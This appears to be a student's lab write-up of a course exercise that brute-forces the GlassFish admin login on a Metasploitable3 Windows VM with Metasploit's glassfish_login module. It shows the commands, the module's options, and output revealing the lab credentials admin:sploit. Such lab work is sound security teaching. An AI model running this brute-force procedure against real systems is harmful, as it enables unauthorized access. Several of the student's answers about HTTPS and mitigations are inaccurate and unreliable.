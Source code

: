# Exercises
Penetration testing exercise using metasploit on Glassfish. The exercise
targets the Glassfish application server running under Windows in the metas-
ploitable~3 image. The test is performed via a brute force attack against the
login page.

In this exercise we need the Kali machine (for penetration testing) and the vulnerable
machine is the Metasploitable3 Windows image. It is the only exercise to be performed
against the Windows image and the last metasploitable exercise of the course.

Please note that all questions (full lines) marked with †should be answered in the report
which you submit as assignment 2. Note on the length of answers: Questions which are
described as discussion or open target an appropriate level of elaboration as you see fit,
whereas the other questions can typically be answered with a sentence. Nonetheless,
there are no length requirements on the answers.

While scanning for vulnernable services in Exercise~03, Glassfish running on port 4848
should have come up.

# Background
**†What does https actually provide protection for?**
HTTPS which is an ecrypted version of the protocol provides protection against data/packet sniffing also called MITM attacks.  


# Brute Force Attack
Creating user.txt and pass.txt
````console
berkankutuk@kali:~$ nano user.txt
berkankutuk@kali:~$ nano pass.txt
````

Goint into msfconsole
````console
berkankutuk@kali:~$ msfconsole
msf6 > use auxiliary/scanner/http/glassfish_login
msf6 auxiliary(scanner/http/glassfish_login) > show options
  Name              Current Setting  Required  Description                                                                                                                                                                                  
  ----              ---------------  --------  -----------                                                                                                                                                                                  
  BLANK_PASSWORDS   false            no        Try blank passwords for all users                                                                                                                                                            
  BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5                                                                                                                                                          
  DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database                                                                                                                                 
  DB_ALL_PASS       false            no        Add all passwords in the current database to the list                                                                                                                                        
  DB_ALL_USERS      false            no        Add all users in the current database to the list                                                                                                                                            
  DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)                                                                                                  
  PASSWORD                           no        A specific password to authenticate with                                                                                                                                                     
  PASS_FILE                          no        File containing passwords, one per line
  Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT             4848             yes       The target port (TCP)
  SSL               false            no        Negotiate SSL/TLS for outgoing connections
  STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
  THREADS           1                yes       The number of concurrent threads (max one per host)
  USERNAME          admin            yes       A specific username to authenticate as
  USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
  USER_AS_PASS      false            no        Try the username as the password for all users
  USER_FILE                          no        File containing usernames, one per line
  VERBOSE           true             yes       Whether to print output for all attempts
  VHOST                              no        HTTP server virtual host
````

Setting the parameters
````console
msf6 auxiliary(scanner/http/glassfish_login) > set RHOST 10.0.2.5
msf6 auxiliary(scanner/http/glassfish_login) > set USER_FILE user.txt
msf6 auxiliary(scanner/http/glassfish_login) > set PASS_FILE pass.txt
````
RPORT is already set, so we move on.

Running the exploit
Setting the parameters
```console
msf6 auxiliary(scanner/http/glassfish_login) > exploit
[*] 10.0.2.5:4848 - Checking if Glassfish requires a password...
[*] 10.0.2.5:4848 - Glassfish is protected with a password
[-] 10.0.2.5:4848 - Failed: 'admin:1234567'

[!] No active DB -- Credential data will not be saved!
[-] 10.0.2.5:4848 - Failed: 'admin:password'
[-] 10.0.2.5:4848 - Failed: 'admin:Password'
[-] 10.0.2.5:4848 - Failed: 'admin:Password123'
...
[+] 10.0.2.5:4848 - Success: 'admin:sploit'
...
```

We got the credentials: `admin:sploit`

# Questions
**†Which username/password combination did you find?**  
Username: admin  
Password: sploit

**†Discuss which security relevant problems are we testing with a brute force attack?**  
Weak password that are common and unencrypted passwords

**†Discuss what would be your suggestions to the admin in order to address and mitigate
this issue?**   
Either random-generate or encrypt passwords.


**†How is this attack type related to the internet of things, internet routers, and, e.g.,
virtual machines?**  
Trial and error method in order to guess user credentials for an authorized system.

**†Do you know a way in which https could make the connection more secure against this
kind of attack?**  
By managing the incorrect login attempts and asking for CAPTCHA. Furthermore, by encypting the packet values so no others can eavedrop and thereby see the credentials in plain text.